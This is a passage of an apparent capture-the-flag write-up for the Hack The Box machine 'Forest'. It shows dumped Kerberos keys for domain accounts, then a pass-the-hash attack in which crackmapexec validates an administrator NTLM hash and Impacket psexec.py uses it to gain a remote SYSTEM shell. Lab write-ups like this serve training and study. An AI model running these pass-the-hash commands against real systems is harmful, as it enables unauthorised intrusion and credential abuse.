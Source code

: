 ```shell
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
......
teltel:des-cbc-md5:92436bdf92e561e6
FOREST$:aes256-cts-hmac-sha1-96:4b2b5c545bc8992ed58858196321d6ff41383f44e81fff11d06b341b6ecdd25f
FOREST$:aes128-cts-hmac-sha1-96:3dafdea2b62f964ae532c8987fd99663
FOREST$:des-cbc-md5:c8132fbf73c71fa8
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up...
```

# pth 哈希传递

crackmapexec 用来检测 hash 是否有效，出现 **Pwn3d!** 即为成功

```shell
> crackmapexec smb 10.10.10.161 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

`C:\Users\Administrator\Desktop` 读取 root.txt

```shell
> python3 psexec.py htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file HOKKpTfO.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service Wohr on 10.10.10.161.....
[*] Starting service Wohr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> dir
```
